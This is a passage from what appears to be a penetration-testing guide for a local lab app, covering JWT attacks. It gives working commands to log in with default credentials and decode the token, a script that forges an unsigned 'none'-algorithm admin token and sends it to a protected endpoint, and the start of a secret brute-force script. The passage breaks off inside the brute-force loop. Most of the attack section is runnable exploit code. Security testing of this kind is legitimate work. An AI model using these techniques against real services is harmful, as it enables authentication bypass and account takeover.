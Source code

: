 ### Phase 8: JWT Vulnerability Testing

#### 8.1 JWT Authentication
**Target**: `/api/auth` endpoint

```bash
# Obtain JWT token
TOKEN=$(curl -X POST http://localhost:5000/api/auth \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}' | jq -r '.token')

echo "Received token: $TOKEN"
```

#### 8.2 JWT Token Analysis
```bash
# Decode JWT (header.payload.signature)
echo $TOKEN | cut -d. -f1 | base64 -d 2>/dev/null | jq .
echo $TOKEN | cut -d. -f2 | base64 -d 2>/dev/null | jq .
```

#### 8.3 JWT Algorithm Confusion Attack
```bash
# Create "none" algorithm token
python3 -c "
import jwt
import json
import base64

# Create header with 'none' algorithm
header = {'typ': 'JWT', 'alg': 'none'}
payload = {'username': 'admin', 'role': 'admin', 'exp': 9999999999}

# Encode header and payload
header_encoded = base64.urlsafe_b64encode(json.dumps(header).encode()).decode().rstrip('=')
payload_encoded = base64.urlsafe_b64encode(json.dumps(payload).encode()).decode().rstrip('=')

# Create unsigned token
unsigned_token = f'{header_encoded}.{payload_encoded}.'
print(f'Unsigned token: {unsigned_token}')
"

# Test with manipulated token
curl -X GET http://localhost:5000/api/protected \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ."
```

#### 8.4 JWT Secret Bruteforcing
```python
# JWT secret bruteforce script
import jwt
import itertools
import string

def bruteforce_jwt_secret(token, wordlist=None):
    """Bruteforce JWT secret key"""
    
    # Common weak secrets
    weak_secrets = ['secret', 'password', '123456', 'admin', 'test', 'key', '']
    
    for secret in weak_secrets:
        try:
            decoded = jwt.decode(token, secret, algorithms=['HS256'])
            print(f"Found secret: '{secret}'")
```